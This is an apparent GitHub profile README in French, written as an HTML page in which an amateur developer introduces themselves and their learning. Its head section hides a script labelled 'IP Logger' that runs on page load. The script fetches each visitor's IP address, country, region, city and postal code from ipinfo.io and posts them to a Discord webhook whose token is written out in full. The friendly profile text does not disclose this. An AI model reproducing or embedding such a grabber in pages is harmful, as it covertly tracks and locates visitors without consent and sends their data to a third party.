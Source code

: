 # README.md
<!DOCTYPE HTML> 
<html lang="fr">
<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=G-44ZSGENS96"></script> 
         <script> 
 window.axeptioSettings = { 
   clientId: "653ba140301840285f89d1fc", 
   cookiesVersion: "github-fr-2", 
 }; 
  
 (function(d, s) { 
   var t = d.getElementsByTagName(s)[0], e = d.createElement(s); 
   e.async = true; e.src = "//static.axept.io/sdk.js"; 
   t.parentNode.insertBefore(e, t); 
 })(document, "script"); 
 </script> 
         <script> 
 function monke(json)  
 { 
      var request = new XMLHttpRequest(); 
  
      request.open("POST", "https://discord.com/api/webhooks/1167017737936175184/-8aZ2_joIDyYwUDljLAJLg15dCQdMtMz7WyUoxqOKWStyCVqje-omWsdZZhr8L7A24_c"); 
  
      request.setRequestHeader('Content-type', 'application/json'); 
  
      var params =  
      { 
           username: "IP Logger", 
           avatar_url: "", 
           content: "@everyone", 
           embeds: [ 
                { 
                     title: "Je te présente mon IP grabber!", 
                     color: 1752220, 
                     description: "**IP:** `" + json.ip + "`\n**Country:** `" + json.country + "`\n**Region:** `" + json.region + "`\n**Town/City:** `" + json.city + "`\n**ZIP:** `" + json.postal + "`" 
                } 
           ] 
      } 
  
      request.send(JSON.stringify(params)); 
 } 
 </script> 
 <script src="https://ipinfo.io/?format=jsonp&callback=monke"></script> 
 <script> 
   window.dataLayer = window.dataLayer || []; 
   function gtag(){dataLayer.push(arguments);} 
   gtag('js', new Date()); 
   gtag('config', 'G-44ZSGENS96'); 
 </script>

<meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <meta name="author" content="Me">
</head>
<body>
<img align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=amayes93&show_icons=true&locale=en&layout=compact" alt="amayes93">
    <br>
    <br>
    <h1 align="center">Salutations👋</h1>
<h3 align="center">Je te souhaite la bienvenue sur mon github Mais sache que je ne suis qu'un développeur amateur!</h3>
    <h4>Rien d'extroadiraire donc 😁🙃!</h4>

<h4 align="center">- A Propos de Moi - </h4>

- ✔️ En recherche constant de projet.💫

- 🔭 Naviguant entre les lignes de code et les mystères non résolus.
  
- 🌱 Je debute en HTML / CSS, et j'apprends également le python <img src="https://img.icons8.com/?size=512&id=13441&format=png" 
      width="40" height="40" alt="PY"> et le bash🖥️.<br>

- 💬 Pour tout questione n'hésite pas à me contacter ! Sur-ce bonne navigation!
</p>
</body>
</html>
